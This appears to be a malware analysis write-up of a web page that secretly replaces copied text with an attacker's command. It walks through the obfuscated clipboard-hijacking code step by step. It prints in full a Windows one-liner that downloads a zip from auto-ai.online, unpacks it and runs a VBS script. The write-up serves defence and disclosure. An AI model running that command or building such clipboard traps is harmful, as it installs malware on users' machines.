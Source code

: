 **How the Attack Works:**

1. **Setup**: `S.useEffect` sets up a copy event listener when the component mounts
2. **Event Interception**: When user copies (Ctrl+C), the function `l` is triggered
3. **Platform Detection**: `const d = i === "win" ? r.windows : r.mac` selects the appropriate malicious command based on the user's platform
4. **Clipboard Replacement**: `u.clipboardData.setData("text/plain", d)` replaces the clipboard content with the malicious command
5. **Prevention**: `u.preventDefault()` prevents the original legitimate text from being copied
6. **Cleanup**: The effect returns a cleanup function that removes the event listener

**The Deception:**

- User sees: `curl -L "https://download.microsoft.com/download/graphics-driver-update.exe" -o driver-update.exe && driver-update.exe /silent`
- User copies the command (appears legitimate)
- JavaScript secretly replaces clipboard with: `curl -k -o "%TEMP%\fixed.zip" "https://auto-ai.online/cam-v-257.fix" && powershell -Command "Expand-Archive -Force -Path '%TEMP%\fixed.zip' -DestinationPath '%TEMP%\fixed'" && wscript "%TEMP%\fixed\update.vbs"`
- User pastes and executes the malicious payload unknowingly

**Obfuscation Techniques:**

The code is heavily obfuscated with lots of redundancies and nonsensical variable names. All whitespaces are also removed compressed into a single line. Right-click and opening of console via keyboard shortcuts is also disabled. The malicious code is also mixed with genuine React applicable code to make it harder to detect.

## Malicious Code Analysis

### Windows Payload

The malicious command that gets executed on Windows systems:

1. Downloads a malicious ZIP file from `auto-ai.online/cam-v-257.fix`
2. Extracts it to the Windows temp directory
3. Executes a VBS script (`update.vbs`) that contains the actual malware payload

### Actual Malware Analysis (from fixed.zip)

I loaded a VM and downloaded the malicious payload. A screenshot of the zip file's content is below:

